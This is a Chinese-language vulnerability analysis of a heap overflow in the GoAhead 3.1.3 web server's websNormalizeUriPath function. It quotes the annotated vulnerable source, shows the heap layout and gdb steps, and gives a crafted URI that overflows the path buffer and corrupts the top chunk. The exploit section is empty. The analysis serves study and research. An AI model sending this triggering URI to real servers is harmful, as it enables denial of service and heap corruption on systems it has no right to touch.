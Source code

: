 ## 漏洞成因



触发漏洞的函数源码如下:

```c
PUBLIC char *websNormalizeUriPath(char *pathArg)
{
    char    *dupPath, *path, *sp, *dp, *mark, **segments;
    int     firstc, j, i, nseg, len;

    if (pathArg == 0 || *pathArg == '\0') {
        return "";
    }
    len = (int) slen(pathArg);
    if ((dupPath = walloc(len + 2)) == 0) {
        return NULL;
    }
    strcpy(dupPath, pathArg);

    if ((segments = walloc(sizeof(char*) * (len + 1))) == 0) {
        return NULL;
    }
    nseg = len = 0;
    firstc = *dupPath;
    for (mark = sp = dupPath; *sp; sp++) {     // /http////HTTP
        if (*sp == '/') {
            *sp = '\0';             //  '/'替换为 '\0'(字符串结尾)
            while (sp[1] == '/') {
                sp++;               // 将多个连在一起的'/'看作一个'/'
            }
            segments[nseg++] = mark; //mark指向字符串的开始
            len += (int) (sp - mark); // 等于 slen(path)-'/'的个数(....)
            mark = sp + 1;          // 调整mark指向下一个字符串的开始
        }
    }
    segments[nseg++] = mark;
    len += (int) (sp - mark);
    for (j = i = 0; i < nseg; i++, j++) {   // i作为输入指针, j作为输出指针  , nseg是segment数组的元素个数
        sp = segments[i];
        if (sp[0] == '.') { 			// 处理了 '.' 和 '..'两种情况, 忽略了其他
          if (sp[1] == '\0')  {
                if ((i+1) == nseg) {
                    segments[j] = "";
                } else {
                    j--;
                }
            } else if (sp[1] == '.' && sp[2] == '\0')  {
                if (i == 1 && *segments[0] == '\0') {
                    j = 0;
                } else if ((i+1) == nseg) {
                    if (--j >= 0) {
                        segments[j] = "";
                    }
                } else {
                    j = max(j - 2, -1);
                }
            }
        } else {
            segments[j] = segments[i];     // 如果不是'.'和'..'这两种情况, 直接复制
        }
    }
    nseg = j;    // 分隔符 '/'的个数
    assert(nseg >= 0);
    if ((path = walloc(len + nseg + 1)) != 0) { 
        for (i = 0, dp = path; i < nseg; ) {
            strcpy(dp, segments[i]);
            len = (int) slen(segments[i]);
            dp += len;
            if (++i < nseg || (nseg == 1 && *segments[0] == '\0' && firstc == '/')) {
                *dp++ = '/';
            }
        }
        *dp = '\0';
    }
    wfree(dupPath);
    wfree(segments);
    if ((path[0] != '/') || strchr(path, '\\')) {
        return 0;
    }
    return path;
}
```

关于这个函数更详细的分析见: 

- http://seclists.org/fulldisclosure/2015/Mar/157
- https://www.52pojie.cn/thread-514097-1-1.html



3个malloc之后堆布局如下所示:

```

|  top chunk |
|____________|
|            |
|    path    |
|____________|
|            |
|  segments  |
|____________|
|            |
|  dupPath   |
|____________|
```

其中path会发生堆溢出





## POC

这里用的是3.1.3版本.



1. `make`
2. `make install`
3. `sudo goahead -v --home /etc/goahead /var/www/goahead-default`
4. `ps -ef`
5. `gdb attach pid`
6. 然后在gdb中输入`b websNormalizeUriPath`, 在函数开始下断点
7. 在运行poc



触发漏洞的uri长这样: `/yyyyyyy/./yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy/.gh`



第二个for循环之后得到的segmens是这样:

```
segments[0]:  '\0'
segments[1]:  'yyyyyyy'
segments[2]:  'yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy'
segments[3]:  'yyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyyy'
segments[4]:  '.gh'
```



nesg = j == 4,  segments的前四项数据会strcpy到path堆块中, 破坏top chunk的堆头,





## exp









## 参考

- https://www.52pojie.cn/thread-598697-1-1.html